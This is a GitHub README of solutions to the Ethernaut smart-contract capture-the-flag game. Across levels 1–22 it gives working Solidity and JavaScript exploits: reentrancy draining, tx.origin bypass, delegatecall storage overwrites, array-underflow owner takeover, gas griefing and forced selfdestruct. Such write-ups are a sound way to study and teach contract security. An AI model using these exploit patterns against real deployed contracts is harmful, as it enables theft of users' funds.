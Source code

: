 # ethernaut-ctf-solutions

<details>
    <summary>Level 1 - Fallback</summary>

```javascript
// first need to send some ether to contribute():
await contract.contribute({value: toWei("0.0001")})

// then send some raw ether, the fallback function will make us the owner
sendTransaction({from: player, to: instance, value: toWei("0.0001")})

// are we the owner yet?
await contract.owner() == player

// now that we're the owner, we can siphon the funds
await contract.withdraw()

// and double check that the contract has a balance of 0:
await getBalance(instance)
```

</details>

 <details>
    <summary>Level 2 - Fallout</summary>
    
```javascript
 /* constructor */
  function Fal1out() public payable    // <--- typo makes it not actually a constructor

// so just call this and you're the owner
await contract.Fal1out()
```

</details> 

 <details>
    <summary>Level 3 - Coin flip</summary>

Deploy this guesser contract, using e.g. Remix IDE:

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip instance = CoinFlip(address(...));

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    bool coinFlip = blockValue > FACTOR;
    require(instance.flip(coinFlip));
  }
}
```

Then repeatedly invoke the guess() function, calls will only go through when we know they will succeed in the `CoinFlip` contract.

</details> 

 <details>
    <summary>Level 4 - Telephone</summary>

Deploy this and call `ring_ring()`, we just need a smart contract to act as a buffer so that `msg.sender != tx.origin`. See also [rekt - THORChain](https://rekt.news/thorchain-rekt2/)

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CallMeMaybe {
    Telephone instance = Telephone(address(...));
    
    function ring_ring() public {
        instance.changeOwner(msg.sender);
    }
}
```

</details> 

 <details>
    <summary>Level 5 - Token</summary>
    
```javascript
// trigger an underflow by transferring >20 tokens to any address
await contract.transfer("0xd4F3ae2100b186D5e8e0E41d7930bE7B3a3e9E6C", 100)
```

</details> 

 <details>
    <summary>Level 6 - Delegation</summary>
    
```javascript
// we want to hit the fallback function of the delegator, and pass it the selector of the pwn() function so that it invokes pwn() on the delegate

contract.sendTransaction({
    to: instance, 
    data: web3.eth.abi.encodeFunctionSignature("pwn()")
})

```

</details> 

 <details>
    <summary>Level 7 - Force</summary>

Relevant chapter in [Mastering Ethereum](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#unexpected-ether)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract TakeMyMoney {
    fallback() external payable {}
    
    function boom(address payable _address) public {
        selfdestruct(_address);
    }
}
```

</details> 

 <details>
    <summary>🏦 Level 8 - Vault</summary>

Find the transaction that was used to create the contract on Etherscan, and look in the state change tab. We can see the value that was stored in the first variable: that's the password, then we just invoke unlock with it:

```javascript
await contract.unlock("0x...")
```

</details> 

 <details>
    <summary>👑 Level 9 - King</summary>

Trying to make this contract the king, it should refuse eth transfers, hence preventing the ownership transfer. Deploy it with 1 ETH, so that it has a starting balance.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;


interface King {
    function _king() external view returns (address payable);
}

contract KingMaker {
    constructor() public payable {}
    
    function kingMe(address kingInstance) public {
        // send ether using a low-level call because send/transfer are limited to 2300 gas
      // send exactly 1 ether, because we need to pass the condition but not exceed the balance of the King contract
        kingInstance.call{value:1 ether}("");
        require(King(kingInstance)._king() == address(this));
    }
    
    function withdraw() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


 <details>
    <summary>🔁 Level 10 - Re-entrancy</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Reentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Withdrawer {
    Reentrance instance = Reentrance(address(...));
    uint amount = 0.1 ether;
    
    constructor() payable {}
    
    // this is where we trigger the re-entrancy bug
    receive() external payable {
        if (address(instance).balance >= amount)  {
            instance.withdraw(amount);
        }
    }
    
    function pullTheTrigger() public {
        instance.donate{value: amount}(address(this));
        instance.withdraw(amount);
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 


<details>
    <summary>☝️ Level 11 - Elevator</summary>

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Elevator {
  function goTo(uint _floor) external;
}

contract Building {
    Elevator instance = Elevator(address(...));
    
    bool answer = true;
    
  function isLastFloor(uint) external returns (bool) {
      answer = !answer;
      return answer;
  }
 
  function justDoIt() public {
      instance.goTo(42);
  }
}
```

</details> 

<details>
    <summary>🤫 Level 12 - Privacy</summary>

```javascript
// read where data[2] is stored (in the fifth slot since there is some 
packing of smaller arguments going on):

await web3.eth.getStorageAt(instance, 5)

-> "0x658df6fba159ec7a1e678c38c33e7a77dd541772c97aeed1ad580b033885e238"

// turn that into a bytes16, which means calling unlock with the first half:

await contract.unlock('0x658df6fba159ec7a1e678c38c33e7a77')

```

</details> 

<details>
    <summary>💂‍♂️ Level 13 - Gatekeeper one</summary>

For the key value itself, need to replace the last 2 bytes with the end of the address used to send the transaction.

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface GatekeeperOne {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    GatekeeperOne instance = GatekeeperOne(address(...));
    event ErrorLog(string reason);

    // getting the gas left just right was difficult, I took some inspiration online to "fuzz" with the for loop
    function pullTheTrigger() public returns(bool) {
        for (uint256 i = 0; i < 120; i++) {
          try instance.enter{gas:i + 150 + 8191 * 3}(0xffffffff0000....) returns(bool result) {
              if (result) {
                  return result;
              }
          } catch Error(string memory reason) {
            emit ErrorLog(reason);
          } catch (bytes memory /*lowLevelData*/) {
            // This is executed in case revert() was used.
            emit ErrorLog("not the right amount of gas");
          }
        }
        return false;
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🐕 Level 14 - Gatekeeper two</summary>

```solidity
// SPDX-License-Identifier: MIT

// this is important, with newer Solidity versions, 
// `uint64(0) - 1` will fail because it relies on an underflow
pragma solidity ^0.6.0; 

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns(bool);
}

contract Enterer {
    constructor() public {
        uint64 hashedMe = uint64(bytes8(keccak256(abi.encodePacked(address(this)))));
        uint64 key = ~hashedMe;
        uint64 expected = uint64(0) - 1;
        
        require(hashedMe ^ key == expected, "wrong key");
        
        GatekeeperTwo instance = GatekeeperTwo(address(...));
        instance.enter(bytes8(key));
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>👌 Level 15 - Naught coin</summary>

The timelock only applies to `transfer`, not `transferFrom` so we need to go with `approve` -> `transferFrom`

```solidity
> balance = (await contract.balanceOf(player)).toString()
"1000000000000000000000000"

> await contract.approve(player, '1000000000000000000000000')
> await contract.transferFrom(player, '0x...', '1000000000000000000000000')

> balance = (await contract.balanceOf(player)).toString()
"0"
```

</details> 

<details>
    <summary>⏰ Level 16 - Preservation</summary>

Deploy this first:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract EvilDoer {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        timeZone1Library = address(this);
        timeZone2Library = address(this);
        owner = tx.origin;
    }

    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

```javascript
// then run this to stomp the address of timeZone1Library with evildoer
await contract.setFirstTime(evildoer);

// then let evildoer stomp the owner
await contract.setFirstTime(42);
```

</details> 

<details>
    <summary>⛑️ Level 17 - Recovery</summary>
Use etherscan to find the address the 0.5 ether was sent to.

```javascript
// getting the function selector:
web3.eth.abi.encodeFunctionSignature('destroy(address)')
"0x00f55d9d"

// getting the whole function invocation, including the selector:
web3.eth.abi.encodeFunctionCall({
   name: 'destroy',
   type: 'function',
   inputs: [{
       type: 'address',
       name: '_to'
   }]
}, [player]);

"0x00f55d9d000000000000000000000000....."

// making a low level call to self destruct it:
web3.eth.sendTransaction({from: player, to: tokenContract, data: "0x00f55d9d000000000000000000000000...."})
```

</details> 

<details>
    <summary>🧙‍♂️ Level 18 - Magic number</summary>

Let's make the tiniest solver in Yul:

```yul
// Solver.yul
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}
```

Build it:

```
> solc --strict-assembly Solver.yul

Warning: Yul is still experimental. Please use the output with care.

======= Solver.yul (EVM) =======

Pretty printed source:
object "Solver" {
    code {
        mstore(0x20, 42)
        return(0x20, 32)
    }
}


Binary representation:
602a60205260206020f3

Text representation:
    /* "Solver.yul":50:52   */
  0x2a
    /* "Solver.yul":44:48   */
  0x20
    /* "Solver.yul":37:53   */
  mstore
    /* "Solver.yul":75:77   */
  0x20
    /* "Solver.yul":69:73   */
  0x20
    /* "Solver.yul":62:78   */
  return
```

Take note of the binary representation. We want to deploy that, which is a bit tricky because we need to send a transaction to address 0 not with this code directly, but with code that returns this binary representation. I took the opportunity to learn about deployment code by writing a [raw_deployer](https://github.com/karmacoma-eth/yolo-evm#raw_deployerpy) script:

``` shell
> python raw_deployer.py 602a60205260206020f3       
600a8061000d6000396000f3fe602a60205260206020f3
```

Now we got the init code, we can create the contract:

```javascript
web3.eth.sendTransaction({
    from: player, 
/* no to address as we are creating a contract */ 
    data: "600a8061000d6000396000f3fe602a60205260206020f3"
})
```

Now just set the solver on the contract and we're done:

```javascript
await contract.setSolver('0x...')
```

</details> 


<details>
    <summary>👽 Level 19 - Alien codex</summary>

Relevant [Solidity docs](https://docs.soliditylang.org/en/v0.8.5/internals/layout_in_storage.html#mappings-and-dynamic-arrays):

>>> "Assume the storage location of the mapping or array ends up being a slot p after applying the storage layout rules. ... Array data is located starting at keccak256(p) and it is laid out in the same way as statically-sized array data would: One element after the other, potentially sharing storage slots if the elements are not longer than 16 bytes."

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface AlienCodex {
  function make_contact() external;
  function record(bytes32 _content) external;
  function retract() external;
  function revise(uint i, bytes32 _content) external;
}

contract Underhanded {
    AlienCodex instance = AlienCodex(address(0x...));
    event ErrorLog(string reason);

    function pullTheTrigger() public {
        instance.make_contact();
        
        // we need to underflow the length of the array, which is now 0xffffffff....
        instance.retract();
        
        // now we get to modify any storage we want
        // the base storage of the array is at 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6
        // so to overwrite storage at slot 0, we calculate the index as hex(0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff - 0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 + 1)
        instance.revise(
            0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a,
            0x0000000000000000000000008830c393b2ed864Bb3c1A2FB9Fce8dA83f6db66c
        );
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}

```

</details> 

<details>
    <summary>🙅‍♂️ Level 20 - Daniel</summary>
Just burn all the gas available in the receive() function since they didn't specify a gas stipend like `call.gas(100000).value()`

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract Burner {
    event ErrorLog(string reason);

    receive() payable external {
        uint i = 0;
        while (gasleft() > 10) {
            i++;
        }
    }
    
    function drain() public {
        payable(msg.sender).transfer(address(this).balance);
    }
}
```

</details> 

<details>
    <summary>🛍️ Level 21 - Shop</summary>
Idea: use the fact the Shop sets `sold = true` between the two calls: they paid for a storage change, and maybe we can look it up for cheap. However even with the following Solidity code I wasn't able to get it to run under the 3000 gas limit:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity >=0.7.0 <0.9.0;

interface Shop {
  function isSold() external view returns(bool);
  function buy() external;
}

contract Buyer {
    Shop shop = Shop(address(0x...));

    function price() external view returns (uint) {
        return shop.isSold{gas: 2000}() ? 42 : 200;
    }
    
    function pullTheTrigger() public {
        shop.buy();
    }
}
```

It ended up working with the following Yul code:

```yul
object "Buyer" {
    code {
        // Deploy the contract
        datacopy(0, dataoffset("runtime"), datasize("runtime"))
        return(0, datasize("runtime"))
    }

    object "runtime" {
        code {
            // Dispatcher
            switch selector()

            case 0xa035b1fe /* "price()" */ {
                let price := 42
                if eq(isSold(), 0) {
                    price := 200
                }
                returnUint(price)
            }

            case 0xb760d418 /* "pullTheTrigger(address)" */ {
                buy()
                stop()
            }

            default {
                revert(0, 0)
            }

            /* ---------- calldata decoding functions ----------- */
            function selector() -> s {
                s := div(calldataload(0), 0x100000000000000000000000000000000000000000000000000000000)
            }

            /* ---------- calldata encoding functions ---------- */
            function returnUint(v) {
                mstore(0, v)
                return(0, 0x20)
            }

            /* ---------- utility functions ---------- */
            function isSold() -> sold {
                mstore(0, 0xe852e741) /* 'isSold()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0x20, 0x20)
                sold := mload(0x20)
            }

            function buy() {
                mstore(0, 0xa6f2ae3a) /* 'buy()' */
                let succeeded := call(gas(), 0x4cb5aee9C212ae36C415A990a8913e2b29fc312C, 0, 28, 4, 0, 0)
            }
        }
    }
}
```

Compile it:

```
> solc --strict-assembly --optimize Buyer.yul
```

Note the binary representation, deploy it:

```javascript
web3.eth.sendTransaction({from: player, data: '608f8061000f600039806000f350fe6000803560e01c63a035b1fe811460215763b760d41881146064578182fd608c565b602a63e852e7418352602060206004601c86734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150602051151560585760c890505b80835250602082f3608c565b63a6f2ae3a825281826004601c85734cb5aee9c212ae36c415a990a8913e2b29fc312c5af150005b5050'})

// make sure the contract is fresh:
await contract.isSold()
-> false

// trigger the attack!
web3.eth.sendTransaction({from: player, to: '0x...', data: 'b760d418', gas: 100000})

await contract.isSold()
-> true

(await contract.price()).toString()
-> 42 
```

</details> 

<details>
    <summary>⚖️ Level 22 - Dex</summary>

Really anticlimactic final challenge, just keep swapping back and forth. The contract doesn't calculate the number of outgoing tokens properly, so it's losing liquidity every time 🤷‍♂️
</details> 